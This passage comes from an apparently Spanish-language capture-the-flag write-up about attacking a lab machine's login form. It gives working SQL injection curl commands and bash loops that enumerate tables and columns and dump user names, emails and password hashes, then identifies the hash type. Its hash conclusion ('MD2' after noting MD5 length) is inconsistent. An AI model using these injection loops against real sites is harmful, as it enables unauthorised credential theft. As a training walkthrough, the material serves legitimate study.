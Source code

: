 Para poder ver mejor las tablas, tendremos que hacerlo en la consola de la siguiente manera:
* Miramos que la peticion en BurpSuite es por POST
```bash
❯ curl -s -X POST http://10.10.11.130/login --data "email=test@test.com' union 1,2,3,select table_name from information_schema.tables limit 0,1-- -&password=1111"

	# data = Que es lo que queremos enviar a nivel de data
```

Ahora vamos a automatizar el comando para que nos muestre todas las tablas:
```bash
❯ for i in $(seq 0 100); do echo "[+] El numero $i: $(curl -s -X POST http://10.10.11.130/login --data "email=test@test.com' union select 1,2,3,table_name from information_schema.tables where table_schema=\"main\" limit $i,1-- -&password=1111" | grep "Welcome" | sed 's/^ *//' | awk 'NF{print $NF}' | awk '{print $1}' FS="<")"; done

	# data = Que es lo que queremos enviar a nivel de data
	# for = Ir iterando en el $i
	# main = La base de datos actual
	
```

Ahora vamos a automatizar el comando para que nos muestre todas las columnas:
```bash
❯ for i in $(seq 0 100); do echo "[+] El numero $i: $(curl -s -X POST http://10.10.11.130/login --data "email=test@test.com' union select 1,2,3,column_name from information_schema.columns where table_schema=\"main\" and table_name=\"user\" limit $i,1-- -&password=1111" | grep "Welcome" | sed 's/^ *//' | awk 'NF{print $NF}' | awk '{print $1}' FS="<")"; done

	# data = Que es lo que queremos enviar a nivel de data
	# for = Ir iterando en el $i
	# main = La base de datos actual
	# user = tabla de la DB
	# \ = Para escapar las comillas de user y main y asi no nos de un error al mandar la data por comando
```

Ahora podemos extraer los datos de las columnas (user, passwd)
```bash
❯ for i in $(seq 0 100); do echo "[+] El numero $i: $(curl -s -X POST http://10.10.11.130/login --data "email=test@test.com' union select 1,2,3,group_concat(name,0x3a,email,0x3a,password) from user limit $i,1-- -&password=1111" | grep "Welcome" | sed 's/^ *//' | awk 'NF{print $NF}' | awk '{print $1}' FS="<")"; done

	# 0x3a = ':' en Hexadecimal
```
Nos devuelve un usuario, su email y una passwerd encritada

Para saber que tipo de **Hash** tiene la passwd, hacemos lo siguiente:
```bash
❯ hash-identifier                           # Abriremos la tool y desoues colocaremos el hash a encontrar
	2b22337f218b2d82dfc3b6f77e7cb8ec

	# MD5 = Tiene 32 caracteres
```
Nos damos cuenta que es un MD2
